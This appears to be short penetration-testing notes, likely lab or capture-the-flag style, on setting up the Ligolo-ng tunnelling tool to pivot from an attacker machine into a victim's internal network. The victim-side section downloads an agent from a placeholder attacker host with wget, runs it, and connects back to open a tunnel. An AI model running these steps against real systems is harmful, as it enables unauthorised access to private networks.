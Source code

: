 # Ligolo proxy setup
 
----------------------------------------------------------------------------------------------------------------------------

First of all we need to download 2 executables;
	1. Ligolo Agent
	2. Ligolo Proxy

Proxy Download
```bash
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz
```
Agent Download
```bash
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
```

----------------------------------------------------------------------------------------------------------------------------

# In our Attack Machine

Change the user 'root' as your own user
```bash
sudo ip tuntap add user root mode tun ligolo
```

Next if you use any vpn address to connect with, delete the internal ip range which you want to connect
```bash
sudo ip route del 192.168.98.0/24 dev tun0
```

Setup the Ligolo tunnel and add the range which you want to connect
```bash
sudo ip link set ligolo up

sudo ip route add 192.168.98.0/24 dev ligolo
```

Start your Ligolo Proxy
```bash
./proxy -selfcert -laddr 0.0.0.0:443
```

----------------------------------------------------------------------------------------------------------------------------

# In the Victim machine

Download the Ligolo agent to victim machine and start it (Do not forget to set up the python http.server in your attacker machine 'python3 -m http.server')
```bash
wget http://attacker_machine_ip_address:8000/agent /opt/

chmod +x agent

./agent -connect attacker_machine_ip_address -ignore-cert
```

----------------------------------------------------------------------------------------------------------------------------

# Again in our Attacker machine
In the ligolo menu
```bash
session

start
```

Now we can easily access to the internal network which we wanted to connect